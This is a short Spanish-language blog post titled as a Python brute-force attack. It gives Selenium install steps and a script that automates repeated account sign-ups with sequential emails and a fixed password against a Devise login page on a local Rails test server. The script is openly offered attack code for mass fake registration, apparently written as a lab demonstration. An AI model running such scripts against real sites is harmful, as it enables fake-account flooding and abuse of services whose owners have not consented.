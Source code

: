 ```yaml
---
layout: post
title:  "Python - Ataque fuerza bruta"
date:   2016-05-01 00:37:19 -0300
categories: rails security
---
```


To install pip, securely download <a src="https://bootstrap.pypa.io/get-pip.py">get-pip.py</a>


```
python get-pip.py
```

To install selenium


```
pip install selenium
```

Script brutal force, el ejemplo esta realizado para funcionar sobre rails 4 con devise instalado por defecto.

{% highlight python %}
#!/usr/bin/python

from selenium import webdriver
from selenium.webdriver.common.keys import Keys
def bForce():
	driver = webdriver.Firefox()
	driver.get("http://192.168.0.3:3001/users/sign_up")
	for i in range(59, 90):
		user = driver.find_element_by_xpath("//*[@id=\"user_email\"]")
		user.send_keys("rr"+str(i)+"@rrr.com")
		password = driver.find_element_by_xpath("//*[@id=\"user_password\"]")
		password.send_keys("12345678")
		pass_confirm = driver.find_element_by_xpath("//*[@id=\"user_password_confirmation\"]")
		pass_confirm.send_keys("12345678")
		driver.find_element_by_name("commit").click()
		close = driver.find_element_by_xpath("/html/body/li/a")
		close.click()
		driver.get("http://192.168.0.3:3001/users/sign_up")
	driver.close()
bForce()


{% endhighlight %}